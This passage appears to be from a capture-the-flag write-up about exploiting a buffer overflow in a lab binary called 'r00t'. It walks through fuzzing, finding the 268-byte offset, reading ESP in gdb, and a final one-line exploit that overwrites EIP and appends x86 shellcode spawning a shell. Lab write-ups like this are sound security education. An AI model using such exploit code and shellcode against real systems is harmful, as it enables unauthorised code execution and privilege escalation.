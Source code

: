 bof.c - pretty good indication that Buffer Overflow was the next logical step (unless it's more tr0ling).

##Exploit Development

###Fuzzing

I started by fuzzing with 300 A's:

<section class="shellbox">
    <div class="unit golden-large code">
      <p class="title">fuzzing linux binary</p>
      <div class="shell">
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">./r00t $(python -c 'print "A" *300')</span></p>
          <span class="output"><br></span>
          <span class="output">Segmentation fault<br></span>
        </p>
      </div>
    </div>
</section>

Bangin' then I tried 250 no crash, adding 10 each time then subtracting when the seg fault occoured at 268 and the instruction pointer address at 269 <code>Illegal instruction</code>.

Using gdb I located the address of ESP.

{% highlight bash %}
(gdb) i r esp
esp            0xbffffb80 0xbffffb80
{% endhighlight %}

Padded with some NOPs - for a reliable landing.

![Worf jump](/img/warf-jump.gif)

Overwrote EIP with the location of ESP and tagged some shellcode on the end to exectute a shell.

###Final Exploit

{% highlight bash %}
./r00t $(python -c 'print "A"*268 + "\x80\xfb\xff\xbf" + "\x90" * 10 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"')
{% endhighlight %}
